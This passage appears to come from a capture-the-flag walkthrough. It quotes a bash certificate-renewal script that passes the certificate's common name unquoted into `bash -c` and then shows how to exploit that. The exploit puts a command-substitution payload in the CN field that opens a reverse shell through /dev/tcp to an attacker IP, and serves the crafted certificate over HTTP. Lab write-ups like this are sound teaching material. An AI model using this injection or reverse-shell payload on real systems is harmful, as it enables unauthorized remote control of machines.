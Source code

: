 ```bash

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

Our injection point is the _$commonName_. We need to generate a certificate with a payload in the _$commonName_ to call a revshell for example. Checking the previous string modifications, we need to start the payload at the character 5 due to the parameter expansion _echo ${commonName:5}_. Also, that certificate must expirate in less than 86400 seconds, aka 1 day, if not, the script won't reach our injection point.


```bash

# Generate the certificate
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -nodes -keyout example.key -out broscience.crt -days 1

# When asking for the CN input this
12345$(bash -i >& /dev/tcp/10.10.14.3/5453 0>&1)

# Serve the file
python3 -m http.server 5454

# On the victim, load the certificate
```